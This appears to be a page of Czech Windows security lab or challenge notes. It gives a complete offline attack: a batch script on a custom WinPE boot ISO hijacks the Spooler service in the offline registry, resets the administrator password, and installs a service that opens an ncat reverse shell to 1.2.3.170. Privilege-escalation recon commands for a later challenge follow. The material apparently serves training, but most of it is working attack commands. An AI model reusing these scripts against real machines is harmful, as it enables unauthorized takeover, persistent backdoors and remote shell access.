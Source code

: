 	@ECHO OFF
	COPY ncat.exe D:\Windows\ncat.exe /y
	COPY srvany.exe D:\Windows\srvany.exe /y
	COPY attack.bat D:\Windows\attack.bat /y
	REG LOAD HKLM\CiziSystem D:\Windows\System32\config\SYSTEM
	REG ADD HKLM\CiziSystem\ControlSet001\Services\Spooler /v ImagePath /t REG_SZ /d "CMD /c CMD /c C:\Windows\attack.bat" /f
	REG UNLOAD HKLM\CiziSystem
	CLS
	ECHO Heslo administratora bylo nastaveno na "heslo"
	PAUSE
	EXIT


	ATTACK.BAT
	----------
	Spustí se pod systémem v kontextu nainstalovaného systému
	1) Změní heslo administrátora na "heslo"
	2) Vytvoříme novou službu s backdoorem
	3) Spustíme backdoor
	4) Vrátíme do původního stavu službu Spooler

	NET USER administrator heslo /active:yes
	SC CREATE attack binpath= "CMD /c CMD /c NCAT 1.2.3.170 5000 -e CMD.exe" start= delayed-auto
	SC START attack
	REG ADD HKLM\SYSTEM\CurrentControlSet\Services\Spooler /v ImagePath /t REG_SZ /d spoolsv.exe /f
	DEL C:\Windows\attack.bat


	Spustíme pod adminem nástroj Deployment and Imaging Tools Environment
	copype amd64 C:\WinPE_amd64
	Dism /Mount-Image /ImageFile:"C:\WinPE_amd64\media\sources\boot.wim" /index:1 /MountDir:"C:\WinPE_amd64\mount"
	Nakopírujeme soubory ncat.exe, srvany.exe, attack.bat a startnet.cmd do složky C:\WinPE_amd64\mount\Windows\System32
	Dism /Unmount-Image /MountDir:"C:\WinPE_amd64\mount" /commit
	MakeWinPEMedia /ISO C:\WinPE_amd64 C:\WinPE_amd64\MagicCD.iso


Challenge 15 (Word-Write binárky služeb)
----------------------------------------
Úkol:	Navyšte si oprávnění z účtu běžného uživatele, který spustil váš TotalCMD a poslal vám svou CMD na systémové oprávnění
Řešení:
	WMIC service get *
	WMIC service get name,pathname,startname
	WMIC service get name,pathname,startname | FINDSTR /i /v system32
	ICACLS D:\Temp\GDSClient\srvany.exe
	REG QUERY HKLM\SYSTEM\CurrentControlSet\Services\GDSClient_Service\Parameters
	ICACLS D:\Temp\GDSClient\GDSClient_Service.bat
	TYPE D:\Temp\GDSClient\GDSClient_Service.bat
	ICACLS D:\Temp\GDSClient\GDS_Service.ps1
	TYPE D:\Temp\GDSClient\GDS_Service.ps1
